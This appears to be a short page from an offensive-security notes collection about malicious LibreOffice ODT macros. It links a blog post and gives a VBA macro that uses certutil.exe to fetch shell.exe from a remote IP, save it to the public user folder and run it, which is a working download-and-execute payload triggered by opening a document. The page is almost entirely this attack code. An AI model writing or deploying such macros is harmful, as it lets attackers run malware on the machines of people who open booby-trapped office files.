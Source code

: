 # LibreOffice

## ODT File

{% embed url="https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html" %}

```vba
Sub Main
    Shell("cmd /c certutil.exe -urlcache -split -f http://192.168.49.72/shell.exe c:\users\public\shell.exe & c:\users\public\shell.exe")
End Sub
```
